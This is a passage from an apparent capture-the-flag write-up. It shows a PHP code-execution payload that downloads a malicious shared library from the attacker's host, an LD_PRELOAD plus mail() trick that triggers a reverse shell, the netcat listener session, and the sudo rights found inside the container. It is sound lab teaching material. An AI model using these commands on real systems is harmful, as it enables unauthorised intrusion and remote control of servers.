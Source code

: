 Now, using the PHP code execution to download the library onto the target:

```console
$ python3 execute_code.py
code> $ch = curl_init('http://10.14.101.76/shell.so');curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);file_put_contents('/tmp/shell.so', curl_exec($ch)); curl_close($ch);
```
{: .wrap }

We can see the library being downloaded from our server:

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.152.169 - - [27/Apr/2025 13:47:10] "GET /shell.so HTTP/1.1" 200 -
```

Now, setting the `LD_PRELOAD` environment variable with the `putenv` function to the library we uploaded, and calling the `mail` function to run the `sendmail` program, causing our library to be loaded and executed:

```console
code> putenv('LD_PRELOAD=/tmp/shell.so'); mail('a','a','a','a');
```

With this, we can see that our reverse shell payload is executed, and we get a shell as the `www-data` user inside a container:

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.14.101.76] from (UNKNOWN) [10.10.152.169] 46126
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bb28d5969dd5:/var/www/html$ script -qc /bin/bash /dev/null
www-data@bb28d5969dd5:/var/www/html$ ^Z

$ stty raw -echo; fg

www-data@bb28d5969dd5:/var/www/html$ export TERM=xterm
www-data@bb28d5969dd5:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),27(sudo)
```

> You can also use [Chankro](https://github.com/TarlogicSecurity/Chankro) for this part by uploading the PHP file it generated to the server and simply including that.
{: .prompt-tip }

## User Flag

### Container Escape

Checking the `sudo` privileges for the `www-data` user inside the container reveals full access:

```console
www-data@bb28d5969dd5:/var/www/html$ sudo -l
Matching Defaults entries for www-data on bb28d5969dd5:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on bb28d5969dd5:
    (ALL : ALL) ALL
    (ALL : ALL) NOPASSWD: ALL
```
